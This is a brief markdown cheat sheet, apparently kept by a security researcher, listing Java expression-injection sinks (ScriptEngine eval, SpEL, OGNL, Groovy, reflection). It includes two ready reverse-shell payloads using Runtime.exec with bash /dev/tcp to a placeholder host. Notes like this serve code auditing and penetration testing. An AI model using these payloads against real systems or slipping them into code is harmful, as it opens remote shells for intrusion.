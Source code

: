 ## Scene
- 1.condition: compare
- 2.calculate: number
- 3.handling: validator

## Type
- ScriptEngine
  - new ScriptEngineManager.getEngineByName("js").eval(input);
```
java.lang.Runtime.getRuntime().exec(["/bin/bash","-c","/bin/bash -i >& /dev/tcp/ip/port 0>&1"])
```

- SpEL
   - [hibernate_validtor_EL_Execute](https://kevinsa.com/2020/06/17/hibernate-validtor-EL-Execute/)

- OGNL
  - getValue()
  - Internal implement principle: findValue
  
- Groovy
  ```
  class RCE{ public static Object obj = java.lang.Runtime.getRuntime().exec(["/bin/bash","-c","/bin/bash -i >& /dev/tcp/ip/port 0>&1"]); }
  ```


- Self-Implement-Reflection
  - 危险静态方法调用: static
  - xx.getClass.forName("").getMethod()
